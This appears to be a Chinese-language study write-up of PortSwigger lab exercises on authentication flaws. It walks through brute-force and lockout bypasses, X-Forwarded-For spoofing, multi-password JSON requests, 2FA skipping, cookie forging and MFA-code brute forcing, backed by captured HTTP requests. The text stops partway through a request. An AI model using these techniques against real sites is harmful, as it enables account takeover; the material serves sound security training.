





#portswigger训练场中服务器认证漏洞#
什么是认证，不同的认证类型可以分为三类：
1.用户知道的元素，如密码，安全问题
2.用户拥有的元素，如类似手机或者安全设备的物理器件
3.用户生理元素或行为模式

##一、基于密码的登录认证实践##
###1.1暴力破解###
####爆破用户名####
若用户名遵循某种可知的格式，则很容易猜测，如email地址。例如，商业公司的登录模式一般为firstname.lastname@somecompany.com。
但是，即便没有明显的格式，有些高权限的账户的名字也是可以预测的如admin或者administrator。
在审计过程中，检测网站是否泄露可能的用户名。例如，无关人员是否不登录而能够访问其他用户简介？即便简介的真是内容被隐藏，简介中使用的名字可能和登录名一致。也可以检查HTTP的响应来判断是否email地址被泄露。有时候，一些响应会包含高权限用户的email地址，如administrators和IT support
####爆破密码####
典型的强密码包括：

- 不少于多少个字符
- 大小写混合
- 至少一个特殊字符
然而，高强度密码很难单独破解，但是基于一些认知联想有可能实现。如mypassword过期后， 可能使用Mypassword1! or Myp4$$w0rd，或者Mypassword1! 变成 Mypassword1? or Mypassword2!
####用户名枚举####
用户名枚举是攻击者能够看到网站的反馈来判断一个用户名是否有效。
通常，用户名枚举发生在login页面，例如，当你输入一个有效的用户名但是密码不对，或者**注册页面中提示一个用户名已经使用过**。者能够极大的减少时间和精力，攻击者能够快速生成一个用户名单。
要爆破一个页面，需要注意以下三方面的反馈信息：

1. Status codes：在一个爆破攻击过程中，返回的HTTP Status code大多数是一样的，当一个请求反馈不一样的Status code，则那个用户名是有效的。所有好的网站应当总是返回一样的status code，但是这个规则不总是follow。
2. Error messages。有时候反馈的错误信息指明用户名和密码错误或者只有密码错误，会泄露用户名信息。好的网站针对所有用户名密码错误应当使用一致的错误信息，但是有时候会有一些小的打字错误存在。即便只有一个字节不同也会导致不同的错误反馈信息，即便该字母在网页中不可见。
3. Response time。如果大量的请求都用类似的响应时间进行处理，出现有不同的响应时间的则达到目的。例如，一个网站发现用户名有效，在进一步检查密码是否正确的时候，可能会引起一点额外的响应时间延迟。这可能很微妙，但是攻击者可能**采用一种非常长的密码，延迟网站的检测处理时间**，放大这个延迟
###lab1：不同的反馈信息###
在burp爆破中，先爆破username，发现有不同的反馈信息，确定username；然后在爆破密码，根据不同的反馈信息，确定密码。

###lab2：细微的不同反馈###
网站会有细微的不同反馈。
burp抓包，先爆破username。开始爆破前，点击option，选择Grep-Extract，点击add，在response中选择Invalid username or password.  字段，开始爆破。实现功能是，抓取该位置的语句，便于后期比较，因为这个位置是网站判断用户名后反馈的内容。

爆破后，发现这个位置的字段有一处不同，确定username。这个说明程序员写程序时候，有笔误。

###lab3：网站限制爆破次数###
当尝试登录太多次后，网站提示30分钟后重试。该网站是基于IP进行判断，同一个IP爆破多次，会被限制。

发现X-Forwarded-For可以用，故爆破的时候，在header中加入：
X-Forwarded-For:§502§，502可以随请求增加而增加，选择Pitchfork爆破模式，一次爆破，X-Forwarded-For增加。
实施：
1.先用提供的用户名和密码wiener：peter进行测试，发现用户名wiener对了后，将密码位数变长，响应时间不断增加；用户名错了后，响应时间很短。

2.开始爆破，使用一个非常长的密码**（一定要很长）**，将 Response received和 Response completed调出来，发现有一个用户名的时间特别长，猜测是用户名有效，故确定用户名，然后进一步爆破密码。 这里确定用户名的方法也可以多试几次，排除干扰项

###1.2有缺陷的爆破保护###
爆破很可能会有很多失败的尝试。逻辑上来说，暴力破解保护就是让自动化处理过程尽可能繁琐，减慢攻击者尝试频率。通常有两种常用方法：

1.尝试登录多次失败，就封锁账户
2.尝试登录多次失败，屏蔽用户IP地址

两种方式都是有漏洞的，尤其是实现逻辑上有缺陷的时候。例如，登录失败多次，IP会被屏蔽。在有的时候，如果一个IP成功登录后，记录失败登录次数的计时器会重置。这就意味着攻击者每成功登录一次自己的账户，就可以爆破几次其他的用户信息

###lab4###
3次登录失败，提示1分钟后再试，修改X-Forwarded-For无效，不能一直爆破。
本题中，高级用户会采用macro或者Turbo等intruder插件，但是用普通方法也能解决本题。
将username用已知用户名wiener和目标用户名carter交替生成username的list，并经wiener的密码peter和爆破的密码list交替生成密码list，然后使用pitchfork模式进行爆破，在Resource Pool中设置最大的并发请求为1，这样能保证是登录一次wiener，再登录一次carter。

#####账户封锁#####
登录失败多次有可能账户被封锁，就像正常登录的错误一样，服务器表明一个账户被锁的response信息也能帮助攻击者伪造用户名。原因在于，有效的用户名才会被锁，可以猜测用户名是否有效。

实现：

burp采用cluster bomb模式爆破，用户名采用猜想的username列表，密码使用5个密码，这样每个用户名会被登录5次，查看结果中是否有被封锁的用户名。

进一步阐述原理：

锁定账户可面向针对特定账户的暴力破解提供一定程度的保护。但是这种方法无法充分阻止攻击者对任意随机账户的暴力破解。以下集中方法可以和锁定账户的策略共同使用：

1.构建一系列的备用的有效用户名。这可以是枚举出来的用户名或者基于一些通用的用户名列表，可以实现迷惑攻击者。

2.明确一个很小的密码列表，这个密码列表至少一个用户使用。这里阐述不理解

#####用户频率限制#####
另一种阻止爆破攻击的方式是用户频率限制。在这种情况下，短期内尝试太多次登录操作会导致IP地址被屏蔽。通常来说，IP地址只能通过以下几种方式解锁：

1.一定时间后自动解锁

2.管理员手动解锁

3.用户完成验证后手动解锁

用户频率限制有时比账户封锁更可取，因为不太容易收到用户名枚举和拒绝服务攻击。然而，也不是完全安全。例如，早期实验中，攻击者可以操纵IP绕过IP屏蔽。由于这个限制是基于用户的IP地址发送过来的HTTP请求的频率，有时候如果攻击者能够在一个请求中实现猜测多个密码，也可能可以绕过这个限制。

####lab5:单个请求中实现猜测多个密码####
提供受害者用户名：carlos，爆破其密码。实验中，登录多次会提示一分钟后再试。

通过burp抓包，发现登陆的请求中，用户名和密码是通过JASON的格式发送的，如下:

    POST /login HTTP/1.1
    Host: ac421f421e4b7b68c0dd156d00fb0084.web-security-academy.net
    Cookie: session=yHKvXsnAoLHcM31xmYPAtZTU4zY2OLUh
    Content-Length: 44
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Sec-Ch-Ua-Platform: "Windows"
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: https://ac421f421e4b7b68c0dd156d00fb0084.web-security-academy.net
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ac421f421e4b7b68c0dd156d00fb0084.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    {"username":"carlos","password":"bbb","":""}

则可以利用这个漏洞，在密码中输入多个密码进行爆破，如写成以下的形式：

    "username" : "carlos",
    "password" : [
    "123456",
    "password",
    "qwerty"
    ...
    ]

这样能得到一个302的response，说明成功登录
    
    HTTP/1.1 302 Found
    Location: /my-account
    Set-Cookie: session=F4t7vHpZ9udq26Pm2bVe1Nv4dhNpFT8y; Secure; HttpOnly; SameSite=None
    Connection: close
    Content-Length: 0

在burp中右击show response in browser，拷贝该URL，在浏览器中打开，则看到用carlos用户登录了。

###1.3HTTP基本的认证###

由于实现相对简单，有时候能看到网站使用了HTTP基本的认证。在这个认证中，客户端从服务器得到一个token，通过连接用户名和密码，再进行Base64编码得到。这个token存在服务器，并由服务器管理，自动添加到每个后续的请求头中，格式为：

    Authorization: Basic base64(username:password)

这并不被认为是安全的认证方法。首先，它在每个请求中重复发送用户的登录凭据。除非这个网站也实现了HSTS（HTTP Strict Transport Security），用户凭证才不怕被中间人（man-in-The-middle，MITM）截获。

此外，HTTP基本认证的实现通常不支持爆破保护。由于token由静态的值组成，可能会容易被暴力破解。

HTTP基本认证也是容易收到session相关的攻击，特别是CSRF，它本身没有提供任何保护。

在某些情况下，采用脆弱的HTTP基本认证可能指挥让攻击者访问看似没用的页面。然而，除了提供进一步的攻击面之外，通过这种方式暴露的凭证可能会被用在其他更机密的上下文中。

##二、多因素认证的漏洞实践##

本节探索多因素认证机制的漏洞。很多网站依赖单因素认证机制，如用户的密码。然而，有些网站要求用户采用多中认证因素证明身份。在大多数网站中，验证生物学因素是不现实的。然而，越来越常见的双因素认证机制是结合用户已知的信息和用户拥有的信息。这种机制通常要求用户输入传统的密码以及短暂的来自out-of-band的物理设备的校验码。这样以来，即便攻击者获取了密码，要同时获取一个out-of-band的校验码不太可能。然而双因素认证机制实现不好，也能够被绕过。

多因素身份验证的全部效益只能通过验证多个不同的因素来实现。用两种不同的方式验证相同的因素不是真正的双因素身份验证。基于电子邮件的2FA就是这样一个例子。虽然用户要求提供密码和验证码，访问验证码依赖于email账户的登录凭证。因此，一个认证因素被校验了两次。

###2.1双因素认证token###

很多高度安全的网站通常提供用户一个专门设备，如RSA token或者密码器，来访问网上银行或者工作站。

另一方面，有些网站将校验码发到用户手机的短信上。首先，校验码是通过SMS发送的，而不是设备本身产生的，这使得校验码有可能被拦截。此外，还存在SIM卡交换的风险，攻击者可能通过欺诈手段获取带有受害者电话号码的SIM卡。然后攻击者能够接受SMS信息，也就获取了校验码。

####绕过双因素认证####
双因素认证机制实现有缺陷的话，会被绕过。如果用户首先被提示输入密码，然后在另一个页面被提示输入验证码，则在输入验证码之前，用户实际上处于“登录”状态。在这种情况下，完成第一步校验后，可以尝试能够直接跳过“完成登录后”页面。有时候，网站可能实际上不会校验用户是否完成第二步认证，就直接载入了登录后的页面。

####lab1：双因素简单绕过####
实验中采用双因素认证机制，攻击者已经获取了一个用户名和密码wiener：peter，以及用户wiener进行双因素认证需要的邮箱，并且知道受害者用户名为carlos，密码为montoya，要求：绕过双因素认证，访问受害者carlos的用户页面。

实现：

1.首先用wiener和perter进行第一步登录；

2.开始第二步认证，用wiener的邮箱获取校验码，输入校验码，完成

3.完成2步校验后，网页跳转到用户账户页面，url后缀为my-account

4.登出wiener账户

5.用受害者用户名carlos和密码montoya登录

6.开始第二步校验码认证的时候，直接将url改为my-account

7.发现网站可以直接登录到账户中，并没有严格验证第二步校验码是否完成。

####双因素认证逻辑缺陷####
有时候有逻辑的缺陷双因素认证意味着，当一个用户完成第一步登录认证后，网站不会充分检测是否是同一个用户在完成第二步认证。
例如，一个用户采用正常的口令完成第一步认证：

    POST /login-steps/first HTTP/1.1
    Host: vulnerable-website.com
    ...
    username=carlos&password=qwerty

系统赋予该用户一个cookie，用于完成第二步认证：

    HTTP/1.1 200 OK
    Set-Cookie: account=carlos
    
    GET /login-steps/second HTTP/1.1
    Cookie: account=carlos

当提交验证码时，该用户采用这个cookie表明用户是在访问哪个账户：

    POST /login-steps/second HTTP/1.1
    Host: vulnerable-website.com
    Cookie: account=carlos
    ...
    verification-code=123456

在这种情况下，攻击者可以用他自己的口令登录，然后把account的cookie改为任意的用户名，然后提交验证码：

    POST /login-steps/second HTTP/1.1
    Host: vulnerable-website.com
    Cookie: account=victim-user
    ...
    verification-code=123456

攻击者依靠自己的用户名就能够登录任意用户的账户，如果攻击者能够去爆破验证码，那么是非常危险的。攻击者都不需要知道用户的密码。

####lab2双因素认证绕过####
提供用户wiener的用户名和密码peter，要求登录受害者carlos的账户。
打开靶场，进行登录，界面中，第一步输入用户名和密码，成功后跳转到第二步认证，输入邮箱中校验码。

通过burp抓包，第一步用wiener：peter登录

    POST /login HTTP/1.1
    Host: acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Cookie: session=SuDIfAE4mtQvTf0ubKgOmU90Ag21ZN0L
    Content-Length: 30
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://acf71f901f7cc79fc07b5595008900bc.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=wiener&password=peter

该请求的response如下：

    HTTP/1.1 302 Found
    Location: /login2
    Set-Cookie: verify=wiener; HttpOnly
    Set-Cookie: session=7kAObY35BG3cb5cwMKHnNlzm8wtwPs9q; Secure; HttpOnly; SameSite=None
    Connection: close
    Content-Length: 0

发现页面自动跳转到第二步进行验证，抓到/login2的请求包（记为包2），如下：

    GET /login2 HTTP/1.1
    Host: acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Cookie: verify=wiener; session=7kAObY35BG3cb5cwMKHnNlzm8wtwPs9q
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Referer: https://acf71f901f7cc79fc07b5595008900bc.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

然后输入邮箱中的校验码，完成登录，发送的请求包（记为包3）如下：

    POST /login2 HTTP/1.1
    Host: acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Cookie: verify=wiener; session=7kAObY35BG3cb5cwMKHnNlzm8wtwPs9q
    Content-Length: 13
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://acf71f901f7cc79fc07b5595008900bc.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://acf71f901f7cc79fc07b5595008900bc.web-security-academy.net/login2
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    mfa-code=0705

分析疑点：
	1.包2中，cookie除了一个串码之外，还有一个verify=wiener;的字段，猜测为指定用户生成第二步校验码
	2.输入第二布验证码的页面中，只有一个输入4位数字校验码的框，没有别的限制，如输错多次要输入验证码，没有指明校验码几分钟内有效等限制，可以进行爆破。

猜测代码：
   
	1. /login
    
    2. 302 跳转到/login2

    3. func login2():
		- generator （code，username） 此处，username为包2中指定，由前端用户指定，很危险
		- send to email
		- check code== client code?

实现：
	
	1.用wiener：peter登录，并输入验证码完成wiener的登录
	2.将包2中用户名改为carlos，重发包2，（实现服务器为carlos生成的验证码）
    3.登出wiener账户
	4.再次用wiener：peter登录，然后发送一个错误的验证码(也可以不发送，直接跳到下一步）
	5.将包3发送到intruder，修改用户名为carlos，对4位数验证码进行爆破，成功登录到carlos，完成目的

####爆破双因素认证校验码####

和用户密码一样，网站会采取措施阻止双因素认证校验码的爆破。在校验码为4或6位数字的时候，显得尤为重要。没有充分的爆破限制的时候，爆破一个6位数字是可行的。

有些网站的措施是，当用户输错了一定次数的校验码后，自动将用户log out。这个对于高级的攻击者是无效的，因为可以采用macro或者Turbo插件实现多步骤过程，完成自动化爆破。

####lab3爆破攻击绕过双因素认证####
该靶场存在双因素认证的爆破漏洞，已知一个用户名和密码，carlos:montoya，但是没有他的双因素认证验证码。

分析：

	1.尝试2次错误的验证码，则会自动登出，需要重新登录账户
	2.直接爆破，报错，
   
	HTTP/1.1 400 Bad Request
    Content-Type: application/json; charset=utf-8
    Set-Cookie: session=UYAEIvRwJZfbe6FgkF25VZxwpYeUY79x; Secure; HttpOnly; SameSite=None
    Connection: close
    Content-Length: 60
    
    "Invalid CSRF token (session does not contain a CSRF token)"

burp抓包，进一步分析：

	1.第一步登录界面/login加载时, response中有csrf标识1，
	  <input required type="hidden" name="csrf" value="dHWiXB6G66SGpmF6ZwIKsVUdTOEIFFQY">
	2.获取的csrf标识1和第一步登录发送的用户名和密码一起发送，
	POST /login HTTP/1.1
    Host: ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net
    Cookie: session=f3I9XyxeiJbv6XjLGEUP6uLZNksRWYdW
    Content-Length: 70
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    csrf=dHWiXB6G66SGpmF6ZwIKsVUdTOEIFFQY&username=carlos&password=montoya

	3.发送完后，302响应，response中生成session，跳转到/login2
    HTTP/1.1 302 Found
    Location: /login2
    Set-Cookie: session=UF1oH2KKMVWNh9F5Y0pPaazqZIqtUv84; Secure; HttpOnly; SameSite=None
    Connection: close
    Content-Length: 0
	4./login2页面加载时用以上生成的session，Response中有csrf标识2，
	<input required type="hidden" name="csrf" value="inVLUd6YQsTfTNJJxx4bNQPGTXzY4MbZ">
	5.第二步验证输入的验证码和csrf标识2一起发送，进行第二步验证码的校验，
    POST /login2 HTTP/1.1
    Host: ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net
    Cookie: session=UF1oH2KKMVWNh9F5Y0pPaazqZIqtUv84
    Content-Length: 51
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac171f9f1e3838a2c054a9db007d0000.web-security-academy.net/login2
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    csrf=inVLUd6YQsTfTNJJxx4bNQPGTXzY4MbZ&mfa-code=3333

综上，由于第二步验证码输错2次，会自动登出，再次进行第一步认证后，csrf标识2重新获取了，因此直接爆破第二步验证码无法成功，必须建立宏macro，将login加载，login发送用户名密码，login2加载，这三个请求包顺序发送，即整体发送一次，爆破一次验证码。三个请求如下：

	GET /login
	POST /login
	GET /login2

实现：

	1.进入project option>sessions，在session handling rules中点击add。
	2.在弹出框中，进入Scope，在URL Scope中选择include all URLs。
	3.返回到Details中，在Rule Actions中选择add>Run a macro.
	4.在Select macro中点击add打开Macro Recorder。选择以下3个请求：
	GET /login
	POST /login
	GET /login2
    5.点击test macro进行测试，检测最后结果是否停留在输入第二步验证码的页面。
	6.接下来将用intruder爆破验证码，注意在Resource pool中选择并发度为1，顺序发送请求，否则乱序发送会导致失败。

##三、其他认证机制的漏洞##
本节研究与身份验证相关的一些补充功能，并演示这些功能如何容易受到攻击。除了基本的登录功能意外，大多数网站也提供补充功能，允许用户管理他们的账户。例如，用户通常能够修改或重置密码。这个机制也会引入漏洞。网站通常会注意避免login页面常发生的漏洞，但是容易忽视对配套的相关功能的保护。当攻击者能够创建自己的账户，结果能够轻易访问额外的页面的时候，配套功能的维护显得尤为重要。

###3.1保持用户的登录状态###
一个常用的特征是，选择保持登录状态即便关闭了浏览器session后。这个功能通常就是一个简单检查框标识“记住我”或者“保持登录”。该功能通常采用生成一个“记住我”的token，存储在一个持久性的cookie中。由于有效地拥有cookie能够允许用户绕过整个登录过程，cookie一定不能被猜出来。然而，有些网站基于可预测的静态值串联生成cookie，如用户名和时间戳。有些甚至使用密码作为cookie的一部分。这种方法是相当危险的，如果攻击者能够创建他自己的账户，他就能研究他自己的cookie，有可能发现cookie的产生机制。一旦攻击者知道了cookie的生成公式，他们能够爆破用户的cookie并获得访问权限。
有些网站基于这样的假设，如果cookie是采用一定程度的加密，那么cookie不会被猜测出来，即便它采用了静态值。如果该机制正确运行是可以的，采用2路编码简单地加密cookie，如base64，不会对cookie有什么保护。即使使用单向散列函数进行适当的加密，也不是完全安全的。如果攻击者能够很容易地识别散列算法，并且没有使用salt，那么他们就可以通过简单地哈希字典来暴力强制cookie。如果没有对cookie猜测采用类似的限制，则可以使用此方法绕过登录限制。

####lab1爆破stay-logged-in的cookie####
靶场中，允许用户关闭浏览器session后，仍然处于登录状态。提供该功能的cookie有爆破的漏洞。提供一个用户名和密码，wiener：peter，再提供一个密码字典，目标：访问受害者carlos的账户。

分析：

	1.登录页面中，有一个stay-logged-in按钮
	2.用wiener：peter登录，勾选上stay-logged-in按钮，发送POST /login的请求如下：
    POST /login HTTP/1.1
    Host: ac771f241efe7c72c0ece37000bc0039.web-security-academy.net
    Cookie: session=I8wcRB5r0nby9MoCYNOmk0BBl4WNFbGX
    Content-Length: 48
    Cache-Control: max-age=0
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Origin: https://ac771f241efe7c72c0ece37000bc0039.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac771f241efe7c72c0ece37000bc0039.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    
    username=wiener&password=peter&stay-logged-in=on
	
	2.Response中生成cookie，跳转到/account,如下所示：
	HTTP/1.1 302 Found
    Location: /my-account
    Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC
    Set-Cookie: session=ZRasHkXZat8KAmfZy6UduN5NrpHmavQU; Secure; HttpOnly; SameSite=None
    Connection: close
    Content-Length: 0

    发现cookie为d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw；在Inspector中看到，使用base64解码后得到：wiener:51dc30ddc473d43a6011e9ebba6ca770。根据后面的字段长度和字母集合，猜测为MD5。又因为出现了用户名，猜测为password的MD5，验证之后，发现确实是这样，因此cookie=username+MD5(password)

	3.GET /account的请求如下：
    GET /my-account HTTP/1.1
    Host: ac221fbd1ed0d8ecc09931f2001900e1.web-security-academy.net
    Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; session=ZRasHkXZat8KAmfZy6UduN5NrpHmavQU
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
